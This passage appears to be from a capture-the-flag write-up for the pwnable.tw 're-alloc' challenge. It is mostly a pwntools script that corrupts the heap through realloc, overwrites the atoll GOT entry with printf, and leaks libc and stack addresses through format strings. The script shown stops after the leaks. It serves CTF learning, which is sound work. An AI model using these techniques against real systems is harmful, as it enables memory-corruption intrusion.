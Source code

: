 - cuối cùng là lấy flag hehe 

![image](https://github.com/gookoosss/CTF/assets/128712571/9423d2b0-01f4-41a5-931a-5db02069a00f)

## script

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./re-alloc_patched")
libc = ELF("./libc-9bb401974abeef59efcdd0ae35c5fc0ce63d3e7b.so")
ld = ELF("./ld-2.29.so")

context.binary = exe

p = process([exe.path])

def GDB():
    gdb.attach(p, gdbscript = '''
    b*0x000000000040129d
    c
    ''')

    input()

p = remote('chall.pwnable.tw',10106)

def add(idx, size, data):
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'Index:', str(idx))
    p.sendlineafter(b'Size:', str(size))
    p.sendlineafter(b'Data:', data)

def edit(idx, size, data):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'Index:', str(idx))
    p.sendlineafter(b'Size:', str(size))
    if size != 0:
        p.sendlineafter(b'Data:', data)

def delete(idx):
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'Index:', str(idx))

add(0, 0x18, b'aaaa')
edit(0, 0 , b'')
edit(0, 0x18, p64(exe.got.atoll))
add(1, 0x18 , b'aaaa')
edit(1, 0x28, b'aaaa')
delete(1)
add(1, 0x18, p64(exe.plt.printf))

p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'Index:', b'%23$p')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x26b6b
print(hex(libc.address))
p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'Index:', b'%18$p')
stack = int(p.recvline()[:-1], 16)
print(hex(stack))
```